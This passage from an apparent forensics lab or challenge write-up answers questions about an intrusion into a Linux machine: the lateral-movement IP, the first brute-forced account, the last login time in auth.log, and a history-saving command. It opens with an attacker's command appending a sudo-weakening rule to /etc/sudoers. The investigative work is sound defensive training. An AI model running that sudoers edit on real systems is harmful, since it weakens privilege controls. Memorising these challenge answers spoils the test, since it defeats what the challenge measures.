`echo 'Defaults !tty_tickets' >> /etc/sudoers`

**Q9: Identifying the source IP address used for lateral movement is essential for tracing the attacker's path and understanding the extent of the compromise. What is the IP address of the machine the attacker used to perform lateral movement to this Linux box?**

`192.168.19.147`

**Q10: Identifying the first username targeted by the attacker in their brute-force attempts offers insight into their initial access strategy and target selection, as the attacker attempted to access two different accounts. What was the first username the attacker targeted in these brute-force attempts?**

`root`

**Q11: Determining the timestamp of the attacker’s final login is crucial for identifying when they last accessed the system to hide their activities and erase evidence. What is the timestamp of the last login session during which the attacker cleared traces on the compromised machine?**

`Oct 28 15:25:21` (the last `Accepted password` line in `auth.log`).

**Q12: During the attacker’s SSH session, they used a command that mistakenly saved their activities to the hard drive rather than keeping them in memory where they’d be more difficult to analyze. Which bash command did they use that left this trace?**

`exit`
